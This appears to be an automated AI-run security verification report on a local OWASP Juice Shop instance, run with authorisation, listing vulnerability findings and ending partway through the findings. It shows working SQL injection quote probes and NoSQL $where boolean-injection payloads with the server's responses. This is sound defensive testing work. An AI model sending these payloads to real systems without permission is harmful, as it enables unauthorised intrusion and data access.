

# Verification report

- **Target:** http://127.0.0.1:3000 · build unknown
- **Assessment:** /home/mrohr/assessments/juice-shop-std3/security-assessment.yaml · [the Analyzer's report](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md)
- **Run:** 2026-11-12 12:41 UTC · AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12) · model claude-sonnet-5-5
- **Mode:** safe, read-only
- **Scope:** no scope file; only the target's host and port
- **Authorisation:** confirmed (ci-flag) at 2026-11-12 12:41 UTC
- **Evidence:** the proofs of concept and screenshots may show target data; review before sharing.

## Summary

🟥 **7 confirmed** · 🟨 1 inconclusive · ⬜ 49 not tested · 57 of 110 findings selected

| Result | Finding | Severity | What the test showed |
| --- | --- | --- | --- |
| 🟥 **Confirmed (2 variants)** | [T-004](#t-004) · SQL injection in product search — routes/search.ts:23 | 🔴 Critical | A syntax break in the declared input raised a backend engine error that its balanced counterpart did not. |
| 🟥 **Confirmed (3 variants)** | [T-001](#t-001) · Angular sanitizer bypass causes XSS in about, search, administration | **🟠 High → 🔴 Critical** | The injected script ran in the browser. |
| 🟥 **Confirmed (2 variants)** | [T-033](#t-033) · NoSQL injection in product reviews $where — routes/showProductReviews.ts:36 | 🟠 High | The response followed the Verifier's fresh control values for the declared input. |
| 🟥 **Confirmed (2 variants)** | [T-034](#t-034) · NoSQL injection in order tracking $where predicate — routes/trackOrder.ts:18 | 🟠 High | The response followed the Verifier's fresh control values for the declared input. |
| 🟥 **Confirmed** | [T-058](#t-058) · Encryption keys and logs served without authorization — server.ts:278 | 🟠 High | Without a login the same answer as account-1, compared in code; a random path next to it: 404. |
| 🟥 **Confirmed** | [T-060](#t-060) · Any authenticated user can list all user accounts — server.ts:363 | 🟠 High | account-1 got the same answer as admin-1; without a login: 401. |
| 🟥 **Confirmed** | [T-069](#t-069) · User list readable by any authenticated user — routes/authenticatedUsers.ts:12 | 🟠 High | account-1 got the same answer as admin-1; without a login: 401. |
| 🟨 Inconclusive | [T-039](#t-039) · Unauthenticated key and log file exposure — routes/keyServer.ts:14 | 🟠 High | Stopped: three actions in a row failed without a usable observation; the last: plan_test: the comparison sends one concrete GET: give path as /a/b with every placeholder filled in, and query inputs in fixed.params. |

🟥 confirmed · 🟩 not reproducible or blocked by control · 🟨 inconclusive · ⬜ not tested. Severity as in the assessment: 🔴 Critical, 🟠 High, 🟡 Medium, 🟢 Low.

Ratings changed after verification: [T-001](#t-001) confirmed with a checked proof: likelihood Medium → High, severity High → Critical.

### Not tested

| Finding | Severity | Why not tested |
| --- | --- | --- |
| <a id="t-010"></a>T-010 · Insecure Direct Object Reference | 🔴 Critical | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-011"></a>T-011 · SQL injection in login credential query — routes/login.ts:34 | 🔴 Critical | needs --allow-intrusive: every request it names writes |
| <a id="t-012"></a>T-012 · Code injection — routes/userProfile.ts:61 | 🔴 Critical | needs --allow-intrusive: every request it names writes |
| <a id="t-048"></a>T-048 · Hardcoded JWT signing key and HMAC secrets — lib/insecurity.ts:21 | 🔴 Critical | no test method for CWE-798 |
| <a id="t-066"></a>T-066 · Registration accepts privileged role from request body — server.ts:408 | 🔴 Critical | no test method for CWE-915 |
| <a id="t-067"></a>T-067 · Mass assignment of role on user registration — server.ts:420 | 🔴 Critical | no test method for CWE-915 |
| <a id="t-068"></a>T-068 · User registration accepts a client-chosen role — server.ts:422 | 🔴 Critical | no test method for CWE-915 |
| <a id="t-078"></a>T-078 · JWT verification does not pin an algorithm — lib/insecurity.ts:55 | 🔴 Critical | no test method for CWE-347 |
| <a id="t-002"></a>T-002 · Systemic missing object ownership checks across address, basket, coupon | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-003"></a>T-003 · JWT Stored in Script-Readable Storage | 🟠 High | no test method for CWE-922 |
| <a id="t-015"></a>T-015 · Password change allowed without current password — routes/changePassword.ts:39 | 🟠 High | no test method for CWE-620 |
| <a id="t-016"></a>T-016 · OAuth implicit flow without state, nonce or audience — login.component.ts:148 | 🟠 High | no test method for CWE-345 |
| <a id="t-017"></a>T-017 · Predictable password derived from OAuth email — oauth.component.ts:30 | 🟠 High | no test method for CWE-1391 |
| <a id="t-018"></a>T-018 · Non-cryptographic RNG for a secret/token — lib/insecurity.ts:53 | 🟠 High | no test method for CWE-330 |
| <a id="t-019"></a>T-019 · JWT decode used without signature verification — lib/insecurity.ts:56 | 🟠 High | no test method for CWE-345 |
| <a id="t-020"></a>T-020 · Insecure JWT Verification | 🟠 High | no test method for CWE-347 |
| <a id="t-021"></a>T-021 · Password reset accepts a security-question answer — routes/resetPassword.ts:10 | 🟠 High | no test method for CWE-640 |
| <a id="t-022"></a>T-022 · Password reset relies on guessable security — routes/resetPassword.ts:41 | 🟠 High | no test method for CWE-640 |
| <a id="t-023"></a>T-023 · Arbitrary server file read — routes/dataErasure.ts:104 | 🟠 High | needs a marker file on the target: marker_file in a scope file |
| <a id="t-024"></a>T-024 · Zip entry path traversal on complaint upload — routes/fileUpload.ts:34 | 🟠 High | needs a marker file on the target: marker_file in a scope file |
| <a id="t-025"></a>T-025 · Request body orderLinesData evaluated by notevil in vm — routes/b2bOrder.ts:23 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-026"></a>T-026 · Unauthenticated modification of products — server.ts:503 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-027"></a>T-027 · Wallet credited with unverified body amount — routes/wallet.ts:27 | 🟠 High | no test method for CWE-472 |
| <a id="t-028"></a>T-028 · Expired coupon campaigns accepted from client-supplied — routes/order.ts:201 | 🟠 High | no test method for CWE-602 |
| <a id="t-029"></a>T-029 · XML parser resolves external entities and DTDs — lib/xml.ts:35 | 🟠 High | no test method for CWE-611 |
| <a id="t-030"></a>T-030 · Basket item update lacks ownership check and field — routes/basketItems.ts:68 | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-035"></a>T-035 · NoSQL operator injection and missing — routes/updateProductReviews.ts:18 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-036"></a>T-036 · Wallet top-up accepts unvalidated attacker-chosen balance — routes/wallet.ts:27 | 🟠 High | no test method for CWE-1284 |
| <a id="t-037"></a>T-037 · User-controlled username compiled as Pug template — routes/userProfile.ts:87 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-038"></a>T-038 · Chatbot accepts client-supplied message roles and history — routes/chat.ts:206 | 🟠 High | no test method for CWE-1427 |
| <a id="t-040"></a>T-040 · XML external entity expansion in upload parser — lib/xml.ts:35 | 🟠 High | no test method for CWE-611 |
| <a id="t-041"></a>T-041 · XML parser resolves external entities in uploads — lib/xml.ts:38 | 🟠 High | no test method for CWE-611 |
| <a id="t-042"></a>T-042 · Any authenticated user can read other users' records and all complaints | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-043"></a>T-043 · Password verification relies on unsalted MD5 — routes/changePassword.ts:39 | 🟠 High | no test method for CWE-916 |
| <a id="t-044"></a>T-044 · Server-side request forgery in profile — routes/profileImageUrlUpload.ts:24 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-045"></a>T-045 · Passwords hashed with unsalted MD5 in User model setter — models/user.ts:76 | 🟠 High | no test method for CWE-916 |
| <a id="t-046"></a>T-046 · Password reset response returns full user record — routes/resetPassword.ts:46 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-047"></a>T-047 · Unsalted MD5 password hashing and no strength policy — lib/insecurity.ts:41 | 🟠 High | no test method for CWE-328 |
| <a id="t-049"></a>T-049 · Chat endpoint has no request or consumption limits | 🟠 High | no test method for CWE-770 |
| <a id="t-050"></a>T-050 · Basket item add checks different BasketId than it — routes/basketItems.ts:42 | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-051"></a>T-051 · Review author taken from request body — routes/createProductReviews.ts:26 | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-052"></a>T-052 · Review update lacks ownership check — routes/updateProductReviews.ts:18 | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-053"></a>T-053 · Recycle records readable by any caller by ID — server.ts:388 | 🟠 High | needs --allow-intrusive: the Verifier would create its own test record |
| <a id="t-057"></a>T-057 · Deluxe upgrade skips payment verification — routes/deluxe.ts:43 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-059"></a>T-059 · Sensitive Routes Registered Without Authentication Middleware | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-061"></a>T-061 · Any authenticated user can create products with chosen prices — server.ts:369 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-063"></a>T-063 · Unauthenticated product update — server.ts:501 | 🟠 High | needs --allow-intrusive: every request it names writes |
| <a id="t-064"></a>T-064 · Duplicate JSON key bypasses basket ownership check — routes/basketItems.ts:37 | 🟠 High | needs --allow-intrusive: every request the source registers for its handlers writes |
| <a id="t-065"></a>T-065 · Chatbot coupon tool lacks server-side authorization — routes/chat.ts:184 | 🟠 High | needs --allow-intrusive: every request it names writes |

## Tested findings

<a id="t-004"></a>
### 🟥 T-004 · SQL injection in product search — routes/search.ts:23 · variant variant-001

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🔴 Critical, unchanged | CWE-89 · injection | not-reviewed | 2026-11-12 12:42 UTC | [F-004](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-004) |

**What the test showed:** A syntax break in the declared input raised a backend engine error that its balanced counterpart did not (steps 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12 and 13).

- **Application screenshot:** none, no application page showing the confirmed effect was captured.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **2** | `GET /rest/products/search?q=apple%27` | anonymous | 500, 994 bytes |
| **3** | `GET /rest/products/search?q=apple%27%27` | anonymous | 200, 30 bytes |
| **4** | `GET /rest/products/search?q=apple%22` | anonymous | 200, 30 bytes |
| **5** | `GET /rest/products/search?q=apple%22%22` | anonymous | 200, 30 bytes |
| **6** | `GET /rest/products/search?q=apple%60` | anonymous | 200, 30 bytes |
| **7** | `GET /rest/products/search?q=apple%60%60` | anonymous | 200, 30 bytes |
| **8** | `GET /rest/products/search?q=apple%27` | anonymous | 500, 994 bytes |
| **9** | `GET /rest/products/search?q=apple%27%27` | anonymous | 200, 30 bytes |
| **10** | `GET /rest/products/search?q=apple%22` | anonymous | 200, 30 bytes |
| **11** | `GET /rest/products/search?q=apple%22%22` | anonymous | 200, 30 bytes |
| **12** | `GET /rest/products/search?q=apple%60` | anonymous | 200, 30 bytes |
| **13** | `GET /rest/products/search?q=apple%60%60` | anonymous | 200, 30 bytes |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-004-930a49d43872218b-poc.har`.

**Control · step 3** (balanced "'") · `GET /rest/products/search?q=apple%27%27` as anonymous → 200, 30 bytes

```text
input, decoded: apple''
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%27%27⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 5** (balanced '"') · `GET /rest/products/search?q=apple%22%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple""
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 7** (balanced '`') · `GET /rest/products/search?q=apple%60%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple``
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 9** (balanced "'") · `GET /rest/products/search?q=apple%27%27` as anonymous → 200, 30 bytes

```text
input, decoded: apple''
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%27%27⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 11** (balanced '"') · `GET /rest/products/search?q=apple%22%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple""
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 13** (balanced '`') · `GET /rest/products/search?q=apple%60%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple``
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 2** (syntax break "'") · `GET /rest/products/search?q=apple%27` as anonymous → 500, 994 bytes

```text
input, decoded: apple'
engine error: yes
```

```http
GET /rest/products/search?q=⟦apple%27⟧ HTTP/1.1

HTTP/1.1 500 Internal Server Error
content-type: text/html; charset=utf-8

Visible text: Error: ⟦SQLITE_ERROR: near "'%'": syntax error⟧ OWASP Juice Shop (Express ^4.22.1) 500 Error: SQLITE_ERROR: near "'%'": syntax error
```

**Attack · step 4** (syntax break '"') · `GET /rest/products/search?q=apple%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple"
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 6** (syntax break '`') · `GET /rest/products/search?q=apple%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple`
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 8** (syntax break "'") · `GET /rest/products/search?q=apple%27` as anonymous → 500, 994 bytes

```text
input, decoded: apple'
engine error: yes
```

```http
GET /rest/products/search?q=⟦apple%27⟧ HTTP/1.1

HTTP/1.1 500 Internal Server Error
content-type: text/html; charset=utf-8

Visible text: Error: ⟦SQLITE_ERROR: near "'%'": syntax error⟧ OWASP Juice Shop (Express ^4.22.1) 500 Error: SQLITE_ERROR: near "'%'": syntax error
```

**Attack · step 10** (syntax break '"') · `GET /rest/products/search?q=apple%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple"
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 12** (syntax break '`') · `GET /rest/products/search?q=apple%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple`
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

Cross-run key `routes/search.ts|CWE-89` · files: `evidence/T-004-930a49d43872218b-exchanges.json`, `evidence/T-004-930a49d43872218b-poc.har`, `evidence/T-004-930a49d43872218b-sql-injection-in-product-search-http-1.png`, `evidence/T-004-930a49d43872218b-sql-injection-in-product-search-http-2.png`, `evidence/T-004-930a49d43872218b-sql-injection-in-product-search-http-3.png` · [test details](#details-t-004)

### ⬜ T-004 · SQL injection in product search — routes/search.ts:23 · variant variant-002

| Result | Severity | Weakness | In the assessment report |
| --- | --- | --- | --- |
| ⬜ **Not tested** | 🔴 Critical, unchanged | CWE-89 · injection | [F-004](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-004) |

**Why not confirmed:** the test agent ended without a proof the Verifier could check.

Cross-run key `routes/search.ts|CWE-89`

<a id="t-001"></a>
### 🟥 T-001 · Angular sanitizer bypass causes XSS in about, search, administration · variant variant-003

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, high confidence | **🟠 High → 🔴 Critical** | CWE-79 · XSS | not-reviewed | 2026-11-12 12:43 UTC | [F-001](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-001) |

**What the test showed:** The injected script ran in the browser (step 2).

- **Rating changed:** confirmed with a checked proof: likelihood Medium → High, severity High → Critical.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **2** | `browser GET /#/search?q=` | anonymous | 200, 9984 bytes, marker executed, 30 requests |

#### Exploit in the application



```text
Application browser capture; highlights and captions added by the Verifier. Illustrates recorded step 2. View as anonymous. Dialog drawn from the recorded execution event.
```

```text
Test agent's explanation: Screenshot shows the search page executing the injected onerror JavaScript, triggering the proof alert dialog.
```


#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-001-cb9ffdc3b619b488-poc.har`.

**Attack · step 2** (carries the payload) · `GET /#/search?q=` as anonymous → 200, 9984 bytes, marker executed, 30 requests

```text
opened in the browser: /#/search?q=
marker executed in the browser: yes
```

The page's first request below; the part after # stays in the browser.

```http
GET / HTTP/1.1

HTTP/1.1 200 OK
content-type: text/html; charset=UTF-8

[page source omitted: the browser observation above decides the XSS test; full record in HAR]
```

Cross-run key `frontend/src/app/about/about.component.ts|CWE-79` · files: `evidence/T-001-cb9ffdc3b619b488-angular-sanitizer-bypass-causes-xss-in-about-search.json`, `evidence/T-001-cb9ffdc3b619b488-angular-sanitizer-bypass-causes-xss-in-about-search.png`, `evidence/T-001-cb9ffdc3b619b488-poc.har`, `evidence/T-001-cb9ffdc3b619b488-angular-sanitizer-bypass-causes-xss-in-about-search-http-…` · [test details](#details-t-001)

### ⬜ T-001 · Angular sanitizer bypass causes XSS in about, search, administration · variant variant-001

| Result | Severity | Weakness | In the assessment report |
| --- | --- | --- | --- |
| ⬜ **Not tested** | **🟠 High → 🔴 Critical** | CWE-79 · XSS | [F-001](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-001) |

**Why not confirmed:** the test agent ended without a proof the Verifier could check.

- **Rating changed:** confirmed with a checked proof: likelihood Medium → High, severity High → Critical.

Cross-run key `frontend/src/app/about/about.component.ts|CWE-79`

### ⬜ T-001 · Angular sanitizer bypass causes XSS in about, search, administration · variant variant-002

| Result | Severity | Weakness | In the assessment report |
| --- | --- | --- | --- |
| ⬜ **Not tested** | **🟠 High → 🔴 Critical** | CWE-79 · XSS | [F-001](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-001) |

**Why not confirmed:** the test agent ended without a proof the Verifier could check.

- **Rating changed:** confirmed with a checked proof: likelihood Medium → High, severity High → Critical.

Cross-run key `frontend/src/app/about/about.component.ts|CWE-79`

<a id="t-033"></a>
### 🟥 T-033 · NoSQL injection in product reviews $where — routes/showProductReviews.ts:36 · variant variant-001

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🟠 High, unchanged | CWE-943 · injection | not-reviewed | 2026-11-12 12:44 UTC | [F-033](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-033) |

**What the test showed:** The response followed the Verifier's fresh control values for the declared input (steps 4, 5, 6, 7, 8, 9, 10, 11, 12 and 13).

- **Application screenshot:** none, no application page showing the confirmed effect was captured.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **4** | `GET /rest/products/1/reviews` | anonymous | 200, 395 bytes |
| **5** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **6** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **7** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **8** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **9** | `GET /rest/products/1/reviews` | anonymous | 200, 395 bytes |
| **10** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **11** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **12** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **13** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-033-c23d5ea977c2e5ab-poc.har`.

**Normal request · step 4** (baseline input) · `GET /rest/products/1/reviews` as anonymous → 200, 395 bytes

```http
GET /rest/products/1/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Normal request · step 9** (baseline input) · `GET /rest/products/1/reviews` as anonymous → 200, 395 bytes

```http
GET /rest/products/1/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 5** (true condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition in step 6: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition's answer.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 6** (false condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 7** (true condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition, second form in step 8: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition, second form's answer.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 8** (false condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 10** (true condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition in step 11: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition's answer.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 11** (false condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 12** (true condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition, second form in step 13: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition, second form's answer.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 13** (false condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

Cross-run key `routes/showproductreviews.ts|CWE-943` · files: `evidence/T-033-c23d5ea977c2e5ab-exchanges.json`, `evidence/T-033-c23d5ea977c2e5ab-poc.har`, `evidence/T-033-c23d5ea977c2e5ab-nosql-injection-in-product-reviews-where-http-1.png`, `evidence/T-033-c23d5ea977c2e5ab-nosql-injection-in-product-reviews-where-http-2.png`, `evidence/T-033-c23d5ea977c2e5ab-nosql-injection-in-product-reviews-where-http-3.png` · [test details](#details-t-033)

### ⬜ T-033 · NoSQL injection in product reviews $where — routes/showProductReviews.ts:36 · variant variant-002

| Result | Severity | Weakness | In the assessment report |
| --- | --- | --- | --- |
| ⬜ **Not tested** | 🟠 High, unchanged | CWE-943 · injection | [F-033](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-033) |

**Why not confirmed:** the test agent ended without a proof the Verifier could check.

Cross-run key `routes/showproductreviews.ts|CWE-943`

<a id="t-034"></a>
### 🟥 T-034 · NoSQL injection in order tracking $where predicate — routes/trackOrder.ts:18 · variant variant-001

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🟠 High, unchanged | CWE-943 · injection | not-reviewed | 2026-11-12 12:48 UTC | [F-034](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-034) |

**What the test showed:** The response followed the Verifier's fresh control values for the declared input (steps 6, 9, 26, 27, 28, 29, 30, 31, 32, 33, 34 and 35).

